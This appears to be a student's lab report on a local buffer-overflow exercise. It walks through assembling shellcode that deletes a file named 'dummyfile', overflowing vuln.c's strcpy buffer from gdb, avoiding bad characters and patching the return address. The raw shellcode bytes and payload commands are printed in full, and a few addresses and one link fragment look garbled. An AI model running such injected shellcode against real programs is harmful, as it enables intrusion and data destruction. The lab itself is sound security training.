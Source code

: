 Name: Dinh Thi Thanh Vy
ID: 22110093

# Lab 2: 
## Task 1: Inject code to delete file
---
Source code asm
![image-11](https://github.com/user-attachments/assets/6542abf7-92ca-4db8-abb4-c0fa96d2346f)

Run virtual environment by docker file

![image-12](https://github.com/user-attachments/assets/93a457dc-ea99-42a4-a008-6b429e4d92c8)

Run file asm and get the shellcode
![image-13](https://github.com/user-attachments/assets/586d0180-a220-4949-bac9-a254e4169f5f)
We have the shellcode for this program as follows:
\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00
We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![image-14](https://github.com/user-attachments/assets/ab087734-8263-4470-b7eb-d28d374b2291)

shell code: 36 bytes
Return address: 4 bytes
--> placement code: 32 bytes
Here, we will use the vuln.c program to trigger a buffer overflow

Connect to gdb
![image-15](https://github.com/user-attachments/assets/c6af93fd-7989-4d72-a685-554a8bf04265)
>b *0x0804846b

Run vuln.c
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![image-16](https://github.com/user-attachments/assets/b11541a0-0a3c-4132-95bb-2c2b82ffae3e)
We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- 0x00 because it marks the end of a string. 
- 0x09 because it's the tab character and would split the argument. 
- 0x0a because it's the newline character and would also terminate the string.

Additionally, 0x0a has a decimal value of 10, and upon reviewing the assembly code, we find:
![image-17](https://github.com/user-attachments/assets/458cf216-ab75-479b-8ec3-7f14d8f00c44)

change file asm:
![image-20](https://github.com/user-attachments/assets/e4535e67-6c6a-433a-a759-f85231728386)

Get shellcode again
>\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\
![image-19](https://github.com/user-attachments/assets/90b87d2b-4d46-4a69-a807-6036db39ed97)

For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to 
prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

![image-22](https://github.com/user-attachments/assets/3a81fd45-f7b6-4181-9db9-76132483ce39)

At this point, the program will likely report an error because it cannot find the address 0xffffffff. 

We need to set 0x0c to 0x00 at the address 0xffffd66b by using command: 
>set {unsigned char} 0xffffd66b = 0x00

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
>set *0xffffd69c = 0xffffd658

The command will be: 
![image-23](https://github.com/user-attachments/assets/f4d54f17-a676-4c3e-b0d1-bbed81f2916d)

Continue runing the program to test out

![image-24](https://github.com/user-attachments/assets/6911c5f2-9d4a-40f8-b2a8-451963d15611)
Dummyfile is still here. Look at the assembly code!
>objdump -d file_del

![image-25](https://github.com/user-attachments/assets/b57dad16-6a7f-4799-afd5-e0d1d8839ce4)

As we can see, the dummyfile is start from 0xffffd672 not from 0x080407a in C program!
We need to set 0xffffd651 to point at that using command: set *0xffffd661 = 0xffffd672
![image-26](https://github.com/user-attachments/assets/92f7c43a-f56b-4188-b77c-85a3b42b1907)
ets/83b8577a-e3d5-44fa-aabe-0d191f149020)
contnue running the program 
![image-27](https://github.com/user-attachments/assets/2d18d141-f215-49f9-83b5-5aaa2fcd1890)

-->dummyfile is deleted


## Task 2: Conduct attack on ctf.c


